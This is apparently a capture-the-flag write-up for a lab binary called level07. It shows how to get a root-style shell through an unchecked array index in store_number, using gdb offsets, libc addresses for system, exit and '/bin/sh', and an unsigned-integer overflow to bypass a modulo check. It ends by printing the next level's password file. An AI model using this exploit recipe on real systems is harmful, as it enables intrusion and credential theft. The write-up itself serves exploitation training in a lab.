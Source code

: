 We get the binary out of the Vm using this cmd:

`scp -P 4242 level07@192.168.56.103:./level07 .binary/level07`


use gdb to get offset 
```
    bt - backtrace: show stack functions and args
    info frame - show stack start/end/args/locals pointers
    x/500x $sp - show stack memory
```

We find 456

Since the store_number function let us put data at arbitry position we can change eip to let us launch a shell.

Since the index number we put is *4 we don really care of the check for our index % 3 since we can overflow.

Needed addr and decimal value :
* system   0xf7e6aed0 => 4159090384
* exit     0xf7e5eb70 => 4159040368
* /bin/sh  0xf7f897ec => 4160264172

So we need to store like this
* index => value
* 114 => 4159090384
* 115 => 4159040368
* 116 => 4160264172

since we can't put at 114 (cause 114 % 3 == 0), we need to overflow unsigned int

`(UNSIGNED_INT_MAX + 1)/ 4  + 114`\
`(4294967295 + 1)/ 4 + 114` = `1073741938`

So at index `1073741938` we store `4159090384`\
   at index `115`		 we store `4159040368`\
   at index `116`		 we store `4160264172`\
We can now quit and have a shell :D
```s
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```